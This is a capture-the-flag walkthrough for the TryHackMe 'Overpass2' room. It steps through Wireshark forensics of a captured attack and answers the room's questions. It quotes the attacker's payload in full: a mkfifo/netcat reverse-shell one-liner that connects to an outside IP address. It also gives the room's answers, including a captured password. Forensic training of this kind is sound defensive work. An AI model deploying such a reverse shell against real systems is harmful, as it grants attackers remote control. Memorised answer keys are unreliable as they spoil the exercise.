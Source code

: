 # Overpass2 Walkthrough
### Link
- https://tryhackme.com/room/overpass2hacked
---
### Task 1  Forensics - Analyse the PCAP
**Question**
###### What was the URL of the page they used to upload a reverse shell?
```
Download and Open pcap

Right click on the first packet --> Select Follow --> TCP Stream
```
[Overpass2_1](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_1.png) , [Overpass2_2](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_2.png)

**Answer**
###### /development/

**Question**
###### What payload did the attacker use to gain access?
```
Right click on the second packet --> Select Follow --> TCP Stream 
```
**Answer**
###### exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")

**Question**
###### What password did the attacker use to privesc?

Now let's use another method. We search in the entire capture the keyword : *password*

For that: 
```
    - click on the search icon --> select Packet bytes
    - *Don't check Case sensitive*
    - Select String
    - indicate the string you want to find: password
```
When you found the packet, Right click --> Select Follow --> TCP Stream

**Answer**
######  whenevernoteartinstant